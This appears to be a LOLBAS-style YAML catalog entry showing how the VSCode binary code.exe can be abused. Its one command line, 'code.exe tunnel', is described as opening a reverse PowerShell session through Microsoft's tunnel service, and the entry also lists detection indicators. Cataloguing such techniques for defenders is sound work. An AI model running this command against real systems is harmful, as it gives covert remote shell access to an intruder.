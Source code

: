 ```yaml
---
Name: code.exe
Description: VSCode binary, also portable (CLI) version
Author: PfiatDe
Created: 2023-02-01
Commands:
  - Command: code.exe tunnel --accept-server-license-terms --name "tunnel-name"
    Description: Starts a reverse PowerShell connection over global.rel.tunnels.api.visualstudio.com via websockets; command
    Usecase: Reverse PowerShell session over MS provided infrastructure.
    Category: Execute
    Privileges: User
    MitreID: T1219
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: '%LOCALAPPDATA%\Programs\Microsoft VS Code\Code.exe'
  - Path: C:\Program Files\Microsoft VS Code\Code.exe
  - Path: C:\Program Files (x86)\Microsoft VS Code\Code.exe
Detection:
  - IOC: Websocket traffic to global.rel.tunnels.api.visualstudio.com
  - IOC: 'Process tree: code.exe -> cmd.exe -> node.exe -> winpty-agent.exe'
  - IOC: 'File write of code_tunnel.json which is parametizable, but defaults to: %UserProfile%\.vscode-cli\code_tunnel.json'
Resources:
  - Link: https://badoption.eu/blog/2023/01/31/code_c2.html
  - Link: https://code.visualstudio.com/docs/remote/tunnels
  - Link: https://code.visualstudio.com/blogs/2022/12/07/remote-even-better
---
```

